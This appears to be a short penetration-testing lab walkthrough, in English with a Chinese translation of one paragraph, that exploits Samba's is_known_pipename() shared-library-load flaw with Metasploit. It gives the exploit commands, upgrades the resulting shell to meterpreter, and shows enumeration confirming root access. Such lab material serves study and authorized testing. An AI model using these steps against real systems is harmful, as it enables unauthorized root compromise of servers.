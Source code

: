 ```
search type:exploit samba
use exploit/linux/samba/is_known_pipename
show options
exploit
```

[Samba is_known_pipename() Arbitrary Module Load](https://www.rapid7.com/db/modules/exploit/linux/samba/is_known_pipename/)

This module triggers an arbitrary shared library load vulnerability in Samba versions 3.5.0 to 4.4.14, 4.5.10, and 4.6.4. This module requires valid credentials, a writeable folder in an accessible share, and knowledge of the server-side path of the writeable folder. In some cases, anonymous access combined with common filesystem locations can be used to automatically exploit this vulnerability.

Samba is_known_pipename() 任意模块加载

此模块在 Samba 版本 3.5.0 到 4.4.14、4.5.10 和 4.6.4 中触发任意共享库加载漏洞。此模块需要有效的凭据、可访问共享中的可写文件夹以及可写文件夹的服务器端路径知识。在某些情况下，匿名访问与常见文件系统位置相结合可用于自动利用此漏洞。

We get a command shell session.

```
pwd # Print our working directory.
```

Put this in the background using the `Ctrl+z` keyboard combination.

List out the sessions.

```
sessions
```

That is a command shell session. We want to upgrade this to a meterpreter session.

`-u`: to upgrade. And we specify the session id, which is 1.

```
sessions -u 1
sessions
```

We have a meterpreter session on the target.

```
sessions 2
```

Firstly, start off with some local enumeration using the meterpreter session as well as a native shell session on the target system.

```
meterpreter > sysinfo
```

Get our current user id or the current user that we have access to.

```
meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
```

